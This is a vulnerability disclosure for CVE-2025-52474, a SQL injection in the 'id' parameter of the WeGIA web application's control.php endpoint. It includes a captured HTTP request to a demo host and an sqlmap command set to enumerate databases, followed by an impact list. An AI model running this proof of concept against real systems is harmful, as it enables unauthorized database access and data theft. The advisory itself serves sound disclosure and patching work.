

## CVE-2025-52474: SQL Injection Vulnerability in `id` Parameter on `control.php` Endpoint

> *CVE Publication: https://www.cve.org/CVERecord?id=CVE-2025-52474*

## Summary

<p style="text-align: justify;">A SQL Injection vulnerability was identified in the <code>id</code> parameter of the <code>/WeGIA/controle/control.php</code> endpoint. This vulnerability allows attacker to manipulate SQL queries and access sensitive database information, such as table names and sensitive data.</p>

## Details

Vulnerable Endpoint: `GET /controle/control.php?nomeClasse=MedicamentoControle&metodo=adicionarMedicamento&modulo=pet&nomeMedicamento=DApvMr&id=<PAYLOAD>&aplicacaoMedicamento=YqchRf&descricaoMedicamento=Mrnfdh HTTP/1.1`

Parameter: `id`

## PoC

Save the request in req.txt file:

````terminal
GET /controle/control.php?nomeClasse=MedicamentoControle&metodo=adicionarMedicamento&modulo=pet&nomeMedicamento=DApvMr&id=1&aplicacaoMedicamento=YqchRf&descricaoMedicamento=Mrnfdh HTTP/1.1
Host: demo.wegia.org
Connection: keep-alive
sec-ch-ua-platform: "Windows"
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
Accept: text/html, */*; q=0.01
sec-ch-ua: "Chromium";v="136", "Google Chrome";v="136", "Not.A/Brand";v="99"
sec-ch-ua-mobile: ?0
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://demo.wegia.org/html/home.php
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: pt-BR,pt;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: _ga=GA1.1.2068698375.1747601288; _ga_F8DXBXLV8J=GS2.1.s1747660538$o4$g0$t1747660538$j60$l0$h0$dyaL3bJ27Uic34e3jqHnkw5lGenE0npxF8g; PHPSESSID=o79b1cq9suo2gksfpnvr4cus4o
````

Then use sqlmap:

````terminal
sqlmap -r req -p id --risk=3 --level=5 --dbs --batch --dbms=mysql --batch 
````



## Impact

<p style="text-align: justify;">
  <ul>
    <li>Unauthorized access to sensitive data: An attacker can access confidential information such as credentials, personal or financial data.</li>
    <li>Compromise of user accounts: Using stolen credentials, attackers can gain full access to the application and perform actions on behalf of legitimate users.</li>
    <li>Data exfiltration: Possibility of stealing large volumes of information by dumping entire database tables.</li>
    <li>Reputational damage: Exposing customer data or business information can significantly harm the organization's image.</li>
    <li>Execution of chain attacks: Obtained information can be used to carry out new attacks, such as targeted phishing or attacks on interconnected systems.</li>
  </ul>
</p>

## Reference

[https://github.com/LabRedesCefetRJ/WeGIA/security/advisories/GHSA-rwvh-2gfh-wmcm](https://github.com/LabRedesCefetRJ/WeGIA/security/advisories/GHSA-rwvh-2gfh-wmcm)

## Finder

[](https://www.linkedin.com/in/nmmorette) [Natan Maia Morette](https://www.linkedin.com/in/nmmorette)

> *By: [CVE-Hunters](https://github.com/Sec-Dojo-Cyber-House/cve-hunters)*